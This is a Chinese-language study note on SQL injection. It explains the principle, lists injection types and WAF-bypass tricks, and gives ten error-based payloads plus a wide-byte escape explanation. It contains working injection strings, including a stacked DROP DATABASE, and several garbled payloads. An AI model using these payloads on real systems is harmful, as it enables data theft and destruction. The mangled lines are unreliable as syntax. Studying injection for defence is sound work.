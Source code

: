 # web安全
## sql注入
### sql注入原理
sql注入的原理是将sql代码伪装到输入参数中，传递到服务器解析并执行的一种攻击手法。也就是说，在一些对server端发起的请求参数中植入一些sql代码，server端在执行sql操作时，会拼接对应参数，同时也将一些sql注入攻击的“sql”拼接起来，导致会执行一些预期之外的操作。通俗易懂一点就是用sql命令伪装成web表单提交到服务器

SELECT * FROM user_table WHERE username=

‘’or 1 = 1 – and password=’’

SELECT * FROM user_table WHERE

 username='' ;DROP DATABASE (DB Name) --' and password=''

分析SQL语句：

条件后面username=”or 1=1 用户名等于 ” 或1=1 那么这个条件一定会成功；

然后后面加两个-，这意味着注释，它将后面的语句注释，让他们不起作用，这样语句永远都能正确执行，用户轻易骗过系统，获取合法身份。

### sql注入分类
联合查询注入、基于报错注入、二次注入、基于时间的盲注、基于布尔的盲注、堆叠注入、宽字节注入、POST型注入/Cookie 注入/HTTP 头部注入

### sql注入绕waf
unicode编码绕过、注释语句绕过、类型转换绕过、关键字拆分绕过、大小写绕过、双写绕过、脏字符、分块传输、http头fuzz

### 报错注入的函数有哪些？10个
```
1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】
2）通过floor报错 向下取整
3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
10）.exp()select from test where id=1 and exp(~(select * from(select user())a));
```

### 宽字符注⼊的原理？如何利⽤宽字符注⼊漏洞，payload如何构造？
在 mysql 中使⽤了 gbk 编码，占⽤ 2 个字节, ⽽ mysql 的⼀种特性, GBK 是多字节编码，它认为两个字节就代表⼀个汉字，所以 %df 时候会和转义符  %5c 进⾏结合, 所以单引号就逃逸了出来, 当第⼀个字节的 ascii 码⼤于 128，就可以了。

### 延时注入如何来判断？
